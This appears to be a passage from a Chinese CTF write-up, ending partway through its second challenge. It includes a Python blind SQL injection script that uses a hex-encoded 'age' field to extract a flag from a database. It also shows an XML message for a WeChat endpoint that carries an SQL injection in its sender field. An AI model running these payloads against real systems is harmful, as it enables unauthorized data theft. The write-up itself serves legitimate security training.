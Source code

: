 ![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q3.PNG)

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q.PNG)

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q1.PNG)

找了个脚本改了下

```
import requests
import binascii

url_register = "http://39.107.32.29:10000/index.php?func=register"
url_login = "http://39.107.32.29:10000/index.php?func=login"
result = '[*]result:'
for i in range(1, 65):
    for j in range(32, 127):
        age = "1223 or ascii(substr((select flag from flag limit 1),{0},1))={1}#".format(str(i), str(j))
        age = binascii.hexlify(bytes(age, 'utf8'))
        age = "0x" + str(age, "utf8")
        username = "pupiles{0}{1}".format(str(i), str(j))
        data = {
            "username": username,
            "password": "123456",
            "age": age
        }
        while True:
            try:
                resp1 = requests.post(url=url_register, data=data, allow_redirects=False)
                break
            except Exception as e:
                continue
        while True:
            try:
                resp2 = requests.post(url=url_login, data=data, allow_redirects=True)
                if "<a>123</a>" in resp2.text:
                    result += chr(j)
                    print(result)
                break
            except Exception as e:
                continue
```
盲注跑出flag

### Wechat
![](https://p2.ssl.qhimg.com/t011aefb72d68b8727e.jpg)

出题人给出了公众后后面的地址，查看微信公众号的SDK可以发现可以通过一些xml数据进行发送
```
import requests

url = "http://39.107.33.77/"
content = "Test http://www.baidu.com TEAMKEY icq3be93d38562e68bc0a86368c2d6b2"

data = '''
<xml>
   <ToUserName><![CDATA[a]]></ToUserName>
   <FromUserName><![CDATA[1',(select content from note limit 3,1))--]]></FromUserName> 
   <CreateTime>1348831860</CreateTime>
   <MsgType><![CDATA[text]]></MsgType>
   <Content><![CDATA[%s]]></Content>
   <MsgId>1234567890123456</MsgId>
   <AgentID>1</AgentID>
```